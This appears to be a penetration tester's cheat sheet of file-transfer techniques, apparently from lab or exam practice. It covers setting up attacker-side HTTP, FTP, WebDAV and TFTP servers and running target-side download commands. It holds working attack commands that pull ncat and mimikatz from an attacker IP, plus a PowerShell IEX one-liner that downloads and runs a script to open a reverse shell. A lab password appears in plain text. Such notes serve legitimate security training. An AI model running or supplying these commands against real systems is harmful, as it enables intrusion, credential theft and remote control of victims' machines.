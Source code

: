 

# C2

##### HTTP
```python
python -m SimpleHTTPServer $port
```

```python
python3 -m http.server $port
```

##### FTP
```
sudo systemctl start pure-ftpd
```
(Setup FTP Server on Linux: [isetup-ftp.sh](file:////home/kali/Documents/linuxAdministration/))

##### WebDAV
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/ATP23/webdav/
```

##### TFTP (Useful on XP)
```bash
sudo atftpd --daemon --port 69 /tftp` )
```


# On the target

## Bidirectional

##### HTTP
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/ncat.exe"
```

##### SSH
```bash
scp $file $user@$hip:"C:\\Users\\$user\\Downloads"
```

```bash
scp $user@$hip:'C:\\Users\\$user\\Downloads\\data.zip' .
```

##### FTP
```powershell
echo "open 192.168.45.182 21" > ftp.txt; echo "USER offsec" >> ftp.txt; echo "alexrudolf" >> ftp.txt; echo "bin" >> ftp.txt; echo "GET ncat.exe" >> ftp.txt; echo "bye" >> ftp.txt; ftp -v -n -s:ftp.txt
```
(dir on linux: `/ftphome/`)
> Error `I won't open a connection to xx.xx.xx.xx (only to xx.xx.xx.xx)` means that passive mode is required. The windows ftp client does not support passive mode

##### TFTP (Useful on XP)
```powershell
tftp -i $ip put <filename>
```


## Linux -> Windows

Download File (HTTP)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$hip/$filename$','C:\Users\offsec\Desktop\wget.exe')"
```

```powershell
Invoke-WebRequest -Uri 'http://192.168.45.177:80/mimikatz32.exe' -OutFile 'C:\Users\marcus\Desktop\mimi32.exe'
```

Download and Execute String  (HTTP)
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:$port/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress $ip -Port $port"
```



## Windows -> Linux


